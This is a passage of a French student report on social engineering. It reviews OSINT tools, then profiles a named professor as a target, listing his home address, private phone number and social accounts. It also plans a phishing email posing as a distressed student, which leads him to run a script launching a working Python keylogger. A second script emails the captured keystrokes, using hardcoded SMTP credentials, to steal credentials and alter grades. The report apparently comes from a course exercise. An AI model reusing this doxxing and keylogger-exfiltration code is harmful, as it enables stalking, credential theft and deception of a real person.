

##### Compte d'une personne connue

Les avantages d'un compte plus connu sont les informations supplémentaires que l'on peut avoir. Une URL externe et la catégorie de business, par exemple. 



##### Récupération d'images

On peut voir que toutes les images présentes sur ce compte sont téléchargées localement grâce à l'option `--downloadPhotos`.



#### 1.3.5 Conclusion 

L'utilité principale est bien évidemment la récolte d'informations pour, par exemple, créer un faux compte pour piéger une victime. Les informations peuvent aussi directement nous servir pour en apprendre plus sur la personne visée. 

L'avantage de cet outil, c'est qu'on peut modifier le script python pour l'adapter à nos besoins (par exemple, pour itérer sur une liste de noms d'utilisateurs). Mais cela reste difficile d'accès car le script n'est que peu documenté. De plus, il n'est plus maintenu, donc si instagram venait à changer ses interfaces, cet outil ne servirait plus à rien.

Pour la petite anecdote, nous avons réparé le script à partir des `issues`, et c'est pour cela que le repo Github à cloner provient de notre compte. 

### 1.4 Sherlock

#### 1.4.1 Introduction

Sherlock est un outil gratuit et opensource, disponible sur Github. Il permet de rechercher des noms d'utilisateur sur différents sites nécessitant une authentification. En explorant le repo Github, on peut voir que la communauté est très active et que des `commit` sont faits très régulièrement. L'outil est encore en développement et cela implique que certains bugs peuvent encore arriver. 

Le problème le plus récurrent est l'apparition de faux positifs : Sherlock indique qu'un compte correspondant au nom d'utilisateur fourni existe et donne un lien sur ce compte mais en suivant ce lien, le site indique qu'aucun compte sous ce nom n'existe. 

Sherlock peut être utilisé sous Linux et Windows, ainsi qu'avec Docker.

#### 1.4.2 Installation

L'installation de Sherlock est rapide et très facile. La procédure suivante a été testée sur une machine Ubuntu 20.04 : 

- Cloner le repo git https://github.com/sherlock-project/sherlock.git
- Installer les dépendances demandées

```shell
// Commandes à effectuer :

$ git clone https://github.com/sherlock-project/sherlock.git
$ cd sherlock
$ python3 -m pip install -r requirements.txt
```

#### 1.4.3 Utilisation 

Pour lancer l'outil Sherlock, il suffit de taper la commande : 

```shell
// En sollicitant la commande help, les options suivantes sont proposées : 
$ python3 sherlock.py --help
usage: sherlock.py [-h] [--version] [--verbose] 
						[--folderoutput FOLDEROUTPUT] [--output OUTPUT] [--tor] 
						[--unique-tor] [--csv] [--site SITE_NAME] 
                   		[--proxy PROXY_URL] [--json JSON_FILE] 
                   		[--timeout TIMEOUT] [--print-all] [--print-found]
                   		[--no-color] [--browse] [--local] USERNAMES [USERNAMES ...]

// Le seul paramètre obligatoire à fournir est donc un ou plusieurs usernames
$ python3 sherlock.py [USERNAMES ...]
```

Les noms d'utilisateurs à fournir peuvent être utilisés sur n'importe quel site. Sherlock possède une liste de sites web qu'il va tester avec le nom d'utilisateur fourni. 

Il peut être nécessaire de modifier le fichier `sites.md` pour ajouter des sites web. 

#### 1.4.4 Démonstration

En entrant la commande indiquée au paragraphe précédent et en indiquant un nom d'utilisateur (ici, `c.woj`), le script effectue sa recherche en concaténant les liens qu'il connait pour les sites recensés dans le fichier `sites.md` et le nom d'utilisateur. 



Les profils correspondant au(x) nom(s) d'utilisateur fournis sont listés dans le terminal mais également dans un fichier texte généré à la fin de l'exécution du script. Les liens renvoyés ne correspondent pas forcément au profil de la personne ciblée car les noms d'utilisateurs peuvent être utilisés par des personnes différentes. 

#### 1.4.5 Conclusion 

L'utilisation de l'outil Sherlock est très facile, la prise en main est très rapide. L'installation se fait en deux commandes et il suffit de parcourir rapidement l'aide proposée pour comprendre comment utiliser l'outil. 

Le problème qu'il est intéressant de soulever est l'apparition de faux positifs. Cela remet un peu en question l'intérêt de l'outil. Si on recherche un nom d'utilisateur et que plusieurs dizaines de sites sont indiqués comme comportant un compte lié au nom, mais que finalement ce sont tous ou presque des faux positifs, la recherche n'aura pas été très utile. 

La recommandation que nous faisons est de suivre le développement de l'outil et de commencer à l'utiliser quand ce bug sera résolu. 

## 2 Recherche d'informations sur une cible

Notre cible dans le cadre de ce projet de `social enginneering` est notre professeur: Abraham Scharf Rubinstein.

### 2.1 Choix

Le choix de la cible s'explique par le fait que nous possédons déjà des informations de base au travers des contacts que nous avons déjà eu avec lui dans le cadre de nos cours à la HEIG-VD. 

Nous souhaitons essayer d'accéder à des données sensibles (notes, par exemple) qui nous permettraient de réussir sans problème les tests de SEN. Nous pensons notamment obtenir un accès à la plateforme GAPS et au drive personnel du professeur pour avoir accès aux tests de la matière SEN.

### 2.2 Eléments découverts

Nous avons effectué des recherches sur Internet, ainsi qu'avec les divers outils de recherche mentionnés dans la première partie de ce rapport. Nous avons découvert un certain nombre d'informations, au travers de réseaux sociaux, de sites professionnels (écoles, universités, ...). 

```
- https://www.local.ch/fr/d/ecublens-vd/1024/rubinstein-abraham-fuGsVoQNYYLnD5WF15pddg
- http://iict.heig-vd.ch/team/show/18/rubinstein-scharf-abraham/
- https://avisdexperts.ch/experts/abraham_rubinstein_scharf
- https://www.epfl.ch/labs/emc/history/history-events/page-97381-en-html/
- https://scholar.google.fr/citations?user=aGSnf_cAAAAJ&hl=fr
- https://www.facebook.com/abraham.rubinstein
- https://www.instagram.com/abrubinstein/?hl=fr
- https://www.linkedin.com/in/abraham-rubinstein-091541/
- https://twitter.com/abrubinstein?lang=fr
- http://abrahamrubinstein.blogspot.com/
- https://disqus.com/by/abrahamrubinstein/
```

Hobbies : 

- aime les produits Apple
- aime Elon Musk et SpaceX, NASA
- aime la technologie et la sécurité des technologies
- a aimé les films et séries: Stranger Things, Mr Robot, Harry Potter, Retour vers le Futur, "The Woman in Red" avec Gene Wilder, Big Bang Theory, Family Guy, ...
- apprécie les petits avions, l'aviation

Info :

- a voulu être ingénieur dès l'âge de 8 ans en voyant un ordi Apple

### 2.3 Portrait de la cible 

La cible est un homme né un 14 septembre, originaire du Venezuela. Il a emménagé à Chavannes-Pres-Renens en juin 2000 et nous savons qu'il réside actuellement à Ecublens, plus précisément au Chemin des Perrettes 3. Son numéro de téléphone privé est le 079 631 33 15 et son adresse e-mail enregistrée sur le site `local.ch` est celle de la HEIG : abraham.rubinstein@heig-vd.ch. 

M. Rubinstein parle l'espagnol en première langue, ainsi que l'anglais et le français couramment. 

Nous avons pu apprendre à travers ses différents profils de réseaux sociaux qu'il est fan de produit Apple, d'Elon Musk (en particulier SpaceX et NASA). On sait aussi qu'il a un attrait pour la série "Stranger Things" et les films "Mr Robot", "Harry Potter", "Retour vers le Futur" et "The Woman in Red" avec Gene Wilder. En somme, M. Rubinstein apprécie la pop culture, avec des séries et des films modernes. 

A travers ses diverses publications sur le réseau social Facebook, nous déduisons que son caractère est plutôt généreux, il a partagé beaucoup de publications de collectes de fonds pour des personnes malades, notamment des enfants. 

M. Rubinstein a fait ses études obligatoires de 1986 à 1988 à U.E.N. José Ramon Yepez, à Maracaibo (Venezuela), il a obtenu son Bachelor d'ingénierie en électricité à l'université de Zulia, toujours à Macaraibo. La cible a ensuite obtenu son doctorat de l'EPFL en 2004, puis y a travaillé encore deux ans (jusqu'en 2006) sur le sujet `fast algorithms and parallel methods for computational electromagnetics`. Il enseigne à la HEIG-VD depuis 2007.

Il est toujours disponible pour aider ses étudiants, il est atteignable très rapidement en cas de questions. 

M. Rubinstein est intervenu à deux reprises sur la chaîne télévisée RTS: 

- En 2018, dans l'émission `On en parle` sur le sujet des gestionnaires de mots de passe
- En 2019 dans l'émission `A bon entendeur` sur le sujet des paiements sans contact

Il a également publié plus d'une quinzaine de papiers scientifiques dans des revues spécialisées et présentés lors de conférences internationales.

Notre cible est donc très calée sur le sujet de la sécurité informatique, cela rend l'attaque plus difficile. Mais nous pouvons compter sur sa disponibilité, sa gentillesse et son désir d'enseigner les sujets qui le passionnent à ses étudiants pour que notre attaque réussisse. 

## 3 Scénario d'attaque

### 3.1 Objectif de l'attaque 

L'objectif principal de l'attaque est d'obtenir les identifiants du professeur pour nous connecter sur divers services en son nom. Nous pourrons notamment accéder au compte Github du professeur, car c'est le vecteur utilisé pour donner les laboratoires aux étudiants. Cela nous permettrait d'accéder aux laboratoires en avant-première, et même éventuellement aux corrections, si celles-ci sont disponibles en privé sur Github.

Nous pourrons également accéder à GAPS avec les identifiants du professeur pour voir ou modifier les notes des étudiants, et ainsi nous assurer de réussir les enseignements dispensés par le professeur. Avec ces identifiants, nous accéderons à la boite mail professionnelle de M. Rubinstein, ainsi qu'à l'intranet de la HEIG-VD. 

Des préjudices pourraient être portés au professeur en obtenant aussi ses identifiants pour se connecter aux divers réseaux sociaux : nous pourrions porter atteinte à sa réputation, mais ce n'est pas l'objectif de cette attaque en particulier.

Eventuellement, des informations d'e-banking pourraient être obtenues grâce à cette attaque, mais ce n'est pas non plus l'objectif principal.

### 3.2 Vecteur(s) d'attaque 

Pour procéder à l'attaque, nous envoyons un e-mail au professeur de la part d'une étudiante en "détresse". 

> Nous comptons sur la bonté et la disponibilité du professeur pour effectuer cette attaque. 

Nous avons écrit un script permettant d'activer un `keylogger` sur l'ordinateur personnel du destinataire du mail. Le mail de panique de l'étudiante incitera le professeur à exécuter le script permettant soi-disant de voir le problème posé par un laboratoire. 

### 3.3 Payload de l'attaque 

La payload sera constituée d'un message d'appel à l'aide de la part d'un étudiant en difficulté sur un projet, ainsi qu'un lien vers le repo Github contenant le projet en question.

```
Bonjour Monsieur Rubinstein,

J'espère que vous allez bien !

Je me permets de vous écrire pour vous demander un peu d'aide sur le laboratoire de SWI... Je n'ai pas bien compris l'étape 2 "Attaque WPA Entreprise (hostapd)", j'ai démarré le travail mais je ne suis pas sûre de comment procéder.

J'espère que ça ne vous gêne pas, mais je vous envoie ci-dessous le lien sur le repo Github contenant un script à lancer pour constater le problème que je rencontre en implémentant l'attaque !

Laboratoire SWI: https://github.com/hans-arn/HEIGVD-SWI-Labo4-WPA-Entreprise

Il faudrait cloner le repo et lancer le script "run_lab.sh", vous devriez voir tout de suite mon souci ...

Je suis encore vraiment désolée de vous demander cette faveur, mais je suis très stressée, la fin de semestre approche très vite, ainsi que la date de rendu ...

Merci d'avance pour votre aide !

Bonne journée,
Cassandre

```

Sur le repo Github dont le lien se trouve dans le mail, se trouvera un script `run_lab.sh` à exécuter : 

```shell
#!/bin/bash

python lib/keylogger.py &
PID=$(echo $!)
sleep 5
kill $PID

python lib/mail_sender.py
```

> Idéalement, le code lançant le `keylogger` serait dissimulé dans un script d'une bien plus grande taille pour éviter qu'il soit trop facilement repérable. Il faudrait également que des opérations "longues" soit lancées pour que le professeur attende un moment avant de regarder le résultat et se connecte sur les services mentionnés au paragraphe 3.1. 

Le code du `keylogger` est le suivant : 

```python
from pynput.keyboard import Key, Listener
import logging

logging.basicConfig(filename=("./lib/keylog.txt"), level=logging.INFO, format='%(message)s')

def on_press(key):
    logging.info(key)

with Listener(on_press = on_press) as listener:
    listener.join()
```

Pour que les données soient envoyées aux attaquants, nous avons écrit le script suivant : 

```python
import smtplib
import time
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.base import MIMEBase
from email import encoders
from pynput.keyboard import Key, Listener
import logging

# ------------------------------ envoi de mail
try:
    to =  "jerome.arn@ik.me"
    print("Mail envoyé à " + to)
    time.sleep(10)
    # expediteur
    user = "hack3rman_badb0y@hotmail.com"
    # mdp
    password = "zkyKMR%M@koaCBV%E4#i*LA8"

    msg = MIMEMultipart()
    file = "./lib/keylog.txt"
    attachment = open(file,'rb')
    obj = MIMEBase('application','octet-stream')
    obj.set_payload((attachment).read())
    encoders.encode_base64(obj)
    obj.add_header('Content-Disposition',"attachment; filename= "+file)
    msg.attach(obj)

    msg["From"] = user
    msg["To"] = to
    msg["Subject"] = "file you need"
    html = """\
    <html>
      <body>
        <p>Hi,<br>
           How are you?<br>
        </p>
      </body>
    </html>
    """

    msg.attach(MIMEText(html, 'html'))

    ms = smtplib.SMTP('smtp.live.com', 587)
    ms.ehlo()
    ms.starttls()
    ms.login(user, password)
    ms.sendmail(user, to, msg.as_string())
    ms.quit()
except smtplib.SMTPRecipientsRefused:
    print("L'adresse " + to + " n'est pas valide !!!!!!!!!!!!!!!!!!")
```


## 4 Simulation d'attaque

### 4.1 Description de l'attaque 

1. Repérage d'un laboratoire pouvant poser des problèmes aux étudiants
2. Création d'un repo Github avec :
   1. Les éléments du `keylogger` (code et envoi de mail), 
   2. Un long script effectuant beaucoup d'opérations concernant le laboratoire (cracking de mots de passe, par exemple),
   3. Le script de lancement du `keylogger` confondu avec un script lançant le laboratoire.
3. Rédaction du mail de "panique" avec le lien du repo Github inclus et la demande d'exécution du script malveillant
4. Envoi du mail
5. Récupération des identifiants confidentiels du professeur



### 4.2 Comportements de la cible

(vis-à-vis de l'attaque, réactions, actions ...)

### 4.3 Résultats obtenus

 (vs. résultats attendus)